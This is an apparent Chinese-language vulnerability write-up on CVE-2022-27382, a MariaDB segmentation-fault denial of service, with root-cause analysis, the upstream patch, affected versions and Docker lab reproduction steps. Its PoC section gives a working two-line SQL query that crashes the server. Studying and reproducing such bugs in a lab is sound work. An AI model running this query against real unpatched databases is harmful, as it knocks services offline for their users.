



# CVE-2022-27382 CWE-617 MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **恒定值（IMMUTABLE）：**在 MariaDB 等数据库系统中，指的是在 SQL 查询执行期间始终不会变化、结果固定的表达式或值。比如对 NOT NULL 列做`IS NULL`判断、常量字面量、或者不依赖表数据的简单运算，这些都会被数据库优化器识别为 IMMUTABLE。在优化与执行过程中，IMMUTABLE 表达式可用于提前计算、简化查询、避免重复求值，同时在某些内部流程中还会特殊标记以跳过不必要的处理。
- **清理（cleanup）：**在 MariaDB 等数据库系统中，表达式树用于表示和计算 SQL 语句中的各种复杂条件。每个节点对应一个具体的操作或值，如字段、函数或子查询。当查询执行结束后，系统会对这些表达式树进行清理（cleanup），即递归释放各个节点所占用的内存资源。这个过程要求每个节点的生命周期管理必须正确，否则如果某些节点被提前释放，而父节点仍然保留对其的引用，就容易导致悬空指针、未定义行为甚至进程崩溃。
- **CWE-617 可达断言（Reachable Assertion）**，描述了一种软件安全缺陷，其核心问题是程序中一个用于调试和校验的“断言（Assert）”可以被外部攻击者通过恶意输入或非预期的交互方式触发。断言是一种编程技术，用于在代码中声明某个条件必须为真，如果条件为假，程序会立即以严重错误（通常是崩溃）的方式中止。这种机制在开发和测试阶段对于快速发现逻辑错误非常有用，但不应该作为生产环境中处理常规错误的方式。当攻击者能够找到一种方法来故意违反这个断言条件时，他们就可以远程、可控地使应用程序或服务器进程崩溃，这本质上就是一种非常有效的拒绝服务（Denial of Service, DoS）攻击。

## 漏洞原理

通过组件 Item_field::used_tables/update_depend_map_for_order 包含分段错误

MariaDB在优化SQL查询时，只为恒定表达式（IMMUTABLE）节点本身打上了不可变标记，却没有递归标记其所有子节点，导致表达式树在清理（cleanup）时父节点被跳过但子节点被处理，产生父子状态不一致。这样在后续执行中，如果父节点访问到已被清理的子节点数据，就可能引发内存错误，最终导致数据库进程崩溃。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql\item_cmpfunc.cc 文件，第 7633 行，`create_pushable_equalities`用于将一个多项相等关系（如 `a = b = c = 5`）分解成一系列可以被“下推”（pushable）的、简单的二元相等条件（如 `a=5`, `b=a`, `c=a`），并将它们添加到一个列表中。

其中第 7655 行的判断条件用于处理常量关系，如果相等组中存在一个常量（`right_item` 不为 NULL），函数会优先生成基准项与常量的等式。其中第 7668 行的判断条件，如果常量项没有被克隆而是直接复用，就给它打上一个“不可变”的标记，防止它被意外修改或释放。

`right_item`如果是一个常量表达式（如`i IS NULL`，在`i INT NOT NULL`时恒为false），需要被标记为 IMMUTABLE（表示恒定，不受数据影响）。但**原始代码只对`right_item`本身设置了IMMUTABLE标记**（`right_item->set_extraction_flag(MARKER_IMMUTABLE)`）。但**没有递归给其子节点（`Item_field(i)`）标记IMMUTABLE**。MariaDB 的`cleanup`流程会跳过被 IMMUTABLE 标记的节点，但其子节点`Item_field(b)`没有IMMUTABLE标记，仍然会被清理。父节点试图访问子节点某些成员变量时，发生未定义行为或内存越界。

```cpp
// item_cmpfunc.cc文件，7633行
bool Item_equal::create_pushable_equalities(THD *thd, List<Item> *equalities, Pushdown_checker checker, uchar *arg, bool clone_const)
{
  Item *item;
  Item *left_item= NULL;
  Item *right_item = get_const();
  Item_equal_fields_iterator it(*this);
    
  while ((item=it++)) // 初始化并寻找“基准”左项 (left_item)
  {
    left_item= item;
    if (checker && !((item->*checker) (arg)))
      continue;
    break;
  }

  if (!left_item) // 如果一个可下推的项都没找到，就直接返回
    return false;

  if (right_item) // ***** 7655 行 处理常量关系 *************
  {
    Item_func_eq *eq= 0;
      // // 克隆基准项和常量项，以创建新的等式对象
    Item *left_item_clone= left_item->build_clone(thd);
    Item *right_item_clone= !clone_const ?
                            right_item : right_item->build_clone(thd);
    if (!left_item_clone || !right_item_clone)
      return true;
      // // 创建一个新的二元等式对象，如 a = 5
    eq= new (thd->mem_root) Item_func_eq(thd,
                                         left_item_clone,
                                         right_item_clone);
      // 将新等式添加到输出列表 equalities 中
    if (!eq ||  equalities->push_back(eq, thd->mem_root))
      return true;
/****** 7668 行 ********** 是否要克隆常量 *********** 漏洞点 ***********************/
    if (!clone_const)
      right_item->set_extraction_flag(MARKER_IMMUTABLE);
  }

  while ((item=it++)) 
  {
      // 生成其他成员与基准项的等式 ...
  }
  return false;
}
```

## 漏洞修复


1. 在 [`sql/item.h`](https://github.com/MariaDB/server/commit/807945f2eb5fa22e6f233cc17b85a2e141efe2c8#diff-01d39f42753f725c1e5bc774574894f7f69f9e2d0590ed5631644d000a5d328c) 中新增处理函数。该函数接收外部整数标志，并配合表达式树遍历，将 `IMMUTABLE_FL` 标志递归应用到所有节点。

   ```cpp
   virtual bool set_extraction_flag_processor(void *arg)
   {
       // 为当前节点设置传入的标志
       set_extraction_flag(*(int*)arg);
       return 0;
   }
   ```

2. 在 [`sql/item_cmpfunc.cc`](https://github.com/MariaDB/server/commit/807945f2eb5fa22e6f233cc17b85a2e141efe2c8#diff-1d0eeab9c76ca431af1f61a23ffd0cb93f4a38709e16005c0aa636ec9a6c313d) 中，通过 `set_extraction_flag_processor` 遍历 `right_item` 表达式树，从根节点到所有子节点统一设置 `IMMUTABLE_FL` 标志。

   ```cpp
   if (!clone_const) {
       int new_flag= IMMUTABLE_FL;
       // 递归遍历 right_item 表达式树中的每个节点
       right_item->walk(&Item::set_extraction_flag_processor, false, (void*)&new_flag); 
   }
   ```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**影响组件：** `Item_field::used_tables` 和 `update_depend_map_for_order`

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27382-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27382-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27382-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS，其中可以看到问题出现在`Item_field：：used_tables` 组件中，和漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 创建测试表
CREATE TABLE t1 (i int NOT NULL);

-- 触发漏洞的 SQL
SELECT * FROM t1 GROUP BY i HAVING i IN ( i IS NULL);
```


```sql
  IN
 /  \
i   IS NULL
       |
       i
```

在 MariaDB 的执行计划优化阶段，会尝试识别恒定表达式（constant expressions）以便提前计算：`i IS NULL` 是针对 `i` 的函数调用（`Item_func_isnull`），但 `i` 是 `NOT NULL` 的，这个表达式理论上是恒定的（总是 `FALSE`）。

进入 `Item_equal::create_pushable_equalities()`：

- 系统识别 `i IS NULL` 是恒定表达式，因此尝试对整个 `i IN ( i IS NULL )` 做 **恒定表达式标记**。
- 调用 `set_extraction_flag(IMMUTABLE_FL)`，**但仅设置了顶层的 `IN` 表达式节点**，**子节点如 `IS NULL`、`i` 并没有被设置标志**。

接着进入 `cleanup_excluding_immutables_processor()` 阶段：

- MariaDB 遍历表达式树准备清理资源。
- 发现顶层 `IN` 是 IMMUTABLE，就跳过它的 cleanup。
- 但其子节点 `IS NULL` 由于未设置 IMMUTABLE 标志，仍然被 cleanup 调用。
- 这样就造成了“一个已固定的表达式中包含未固定的子表达式”的 **结构状态不一致**。

## 参考链接


[NVD - CVE-2022-27382](https://nvd.nist.gov/vuln/detail/CVE-2022-27382)

[[MDEV-26402\] SEGV or assert `fixed == 1' - Jira --- [MDEV-26402] A SEGV in Item_field::used_tables/update_depend_map_for_order or Assertion ` fixed == 1' - Jira in Item_field::used_tables/update_depend_map_for_order](https://jira.mariadb.org/browse/MDEV-26402)

[MDEV-26402: A SEGV in Item_field::used_tables/update_depend_map_for_o… · MariaDB/server@ba1c657](https://github.com/MariaDB/server/commit/ba1c6577a36b078a41289f6259880ce77fe28711)
